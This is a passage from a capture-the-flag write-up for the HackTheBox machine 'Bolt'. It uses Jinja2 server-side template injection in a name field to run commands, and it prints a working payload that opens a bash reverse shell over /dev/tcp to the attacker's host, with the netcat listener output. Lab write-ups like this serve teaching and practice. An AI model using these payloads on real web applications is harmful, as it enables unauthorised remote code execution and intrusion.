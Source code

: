 When I solved the box originally, I used a less reliable version of a
SSTI payload, and I've learned of a few better ones since then. In
[Beyond Root](#beyond-root), I'll dive into the different payloads and
how I got the more difficult one working for Bolt, as well as look at
what they are doing.

For now, I'll grab a payload like:



    {{ namespace.__init__.__globals__.os.popen('id').read() }}



If I set my name to that and submit, in the second email I see:

![](/img/image-20220218153059513.png)

#### Shell

I am also able to `ping -c 1 10.10.14.6` and see ICMP packets in
`tcpdump`, and the results is in the email:

![](/img/image-20210908165753130.png)

I'll go for a reverse shell:



    {{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}



It connects:



    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.114] 57570
    bash: cannot set terminal process group (968): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@bolt:~/demo$ 

